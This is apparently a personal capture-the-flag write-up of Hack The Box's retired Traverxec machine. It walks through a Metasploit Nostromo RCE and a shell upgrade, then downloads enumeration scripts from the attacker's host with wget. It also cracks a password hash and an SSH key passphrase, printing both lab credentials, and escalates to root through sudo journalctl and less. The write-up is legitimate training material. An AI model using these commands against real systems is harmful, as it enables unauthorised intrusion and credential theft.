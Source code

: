# Traverxec
Details:
- Traverxec IP: 10.10.10.165
- Kali IP: 10.10.14.111
- Difficulty: easy
- Date of writeup: 2 May 2020
- **NOTE**: there are no screenshots of the machine because it got retired before I could write this. Luckily, I had enough personal notes to write this up. I aplogize for the lack of images.

Traverxec was my first ever box. Although it was marked as **easy**, it took me some time to solve it. To be fully honest, at some point I had to go on a search for tips in Reddit and Hackthebox forums, which felt a little bit like cheating. It’s hard to be online searching for tips and not spoil the whole box, but it’s possible. I’ve found Reddit specially useful in that sense.

Sections:
- [Recon and finding an RCE](#recon-and-finding-an-rce)
- [Enumerating and poking around](#enumerating-and-poking-around)
- [Search and learn](#search-and-learn)
- [Privesc to root](#privesc-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)


## Recon and finding an RCE
So, first things first: recon.
```shell
kali$  nmap -sC -sV 10.10.10.165
```

When checking out the results, something weird pops up to sight immediately: there is a Nostromo web server running on port 80, version 1.9.6. ```searchsploit nostromo``` will show whether this web server has known vulnerabilities (and the exploits). 

![](images/Traverxec_1.png?raw=true)

Sure enough, there’s an RCE vulnerability. We can run it directly in metasploit.

```
kali$  msfconsole
kali$  search nostromo
kali$  use exploit/multi/http/nostromo_code_exec
kali$  set RHOSTS 10.10.10.165
kali$  set LHOST tun0
kali$  run
```

This gives us a shell. Running ```whoami``` shows that we’re ```www-data```, the owner of the web server. To get a proper shell, we can use a reverse shell with the commands in [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) site, and then running:
```
www-data$  python -c ‘import pty; pty.spawn(“/bin/bash”)’
Press CTRL-Z
kali$  stty raw -echo
kali$  fg
Press enter once more
```

## Enumerating and poking around
Ok, now we have a foothold in the server, we need to privesc to a user. Here’s where I got stuck for a while and, eventually, had to search for tips. I tried a lot of things before finding out the right way to go: enumerating with tools such as [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and [LinEnum](https://github.com/rebootuser/LinEnum), looking at possible backups, searching for scripts or custom binaries, etc. None of this were the correct answer of course, but just for the sake of it I’ll write them down.

An easy way to get files to the server is to download them to your kali machine and then:
```
kali$  python3 -m http.server 8080
www-data$  wget “http://10.10.14.111:8080/filename.sh
```

So we can run
```
www-data$  chmod +x LinEnum.sh
www-data$  chmod +x linpeas.sh
www-data$  ./LinEnum.sh -r linEnumReport -e /tmp/ -t
www-data$  ./linpeas.sh -a > linpeasReport.txt
```

As said, these scripts didn’t come back with meaningful information. We discover user **david** in ```/etc/passwd``` file, which is surely the user we need to own. I attempted to take a look at david’s files:
```
www-data$  cd /home/david → succeeds
www-data$  ls -la → fails
```

This is weird behavior. If you read the [last section](#learnings-from-ippsec-walkthrough), it will make sense.

Poking around in nostromo’s folder (```/var/nostromo```), we find a hash in the ```conf/.htpasswd``` file. Running ```hashid``` shows that it is an MD5Crypt hash. I saved it in a file called hash.txt
```
kali$  hashcat -m 500 hash.txt rockyou.txt –force
```

The rockyou wordlist can be found at ```/usr/share/wordlists/rockyou.txt.gz```. The result of hashcat is **Nowonly4me**.

It seems I had something going on, right? Well, I used it to access the ssh service running in port 22, but nothing:
```
kali$  ssh david@10.10.10.165
```

So, what now?

## Search and learn
One of the tips said, if I remember correctly, "take a look at the nostromo docs, specially regarding public_www". So I did, and found out that when there’s certain configuration ([homedirs](https://gsp.com/cgi-bin/man.cgi?topic=NHTTPD#HOMEDIRS), nostromo creates a public folder in the home folder of the user. I looked at nostromo configuration files and sure enough, the server had this configuration for user david.

Important learning here: when there’s a weird product in an environment, try to find out ways it can be misconfigured, outdated, etc. Do the research!

In ```/home/david/public_www```, there were some filed of interest, specially ```backup-ssh-identity-files.tgz```. Using ```zcat```, it’s possible to see that it is indeed an ssh key pair. We have david’s private key and public certificate.

We copy those to the Kali machine, under the name ```david_rsa``` and ```david_rsa.pub```. By looking at their content, we can easily find out that the private key is encrypted (the header of the key clearly says so)

![](images/Traverxec_2.png?raw=true)

We can get the passphrase using john:
```
kali$  python /usr/share/john/ssh2john.py david_rsa > file4john
kali$  john file4john
```

We find out this way that the passphrase is **hunter**. We can verify this and use it:
```
kali$  openssl rsa -check -noout -in david_rsa
kali$  chmod 600 david_rsa
kali$  ssh -i david_rsa david@10.10.10.165
```

By writing the passphrase, we get a shell as david

## Privesc to root
Luckily, after the struggle with nostromo, getting root was quite easy.

In david’s home folder there were some scripts in the bin directory. One of them (```server-stats.sh```) runs the following command: ``` sudo journalctl -n5 -unostromo.service```. I tried to run that myself and was successful. This is a good thing, it seems david is in the sudoers file for this command. ```journalctl``` uses ```less``` to display the output, and it is listed in the [GTFOBins](https://gtfobins.github.io/) list. This is a list of binaries that can be used to bypass security restrictions.  ```less```, for example, allows to spawn an interactive shell, which will run as root.

I played around a little bit, without getting it to work until I realized that I needed to reduce the terminal screen so ```less``` would be used (the ```-n5``` means it will only display the last 5 lines). 

Btw, changing the command to display more lines didn’t work, because it didn’t match the configuration of the sudoers file.

**There’s root!**

## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=6_C9ShH9v2w)

Great walktrhough, as usual. 
- He explains why I had to do a reverse shell after getting a shell as www-data in metasploit. Apparently, the exploit script was opening a ```/bin/sh``` shell in the server. ```sh``` was a link to ```dash```. If the exploit script had run ```/bin/bash```, then I wouldn’t have had to open another reverse shell.
- He explains why it was possible to ```cd``` to ```/home/david``` but not list its content. Apparently, to ```cd``` to a folder you only need to have execution permission. To list it, you need read permission.

![](images/Traverxec_3.png?raw=true)

- He explains why sudo terminates when a pipe appears. So we couldn’t achieve a root shell by doing ``` sudo journalctl -n5 -unostromo.service | less```
- He explains what the vulnerability does and why it succeeds by analyzing nostromo code
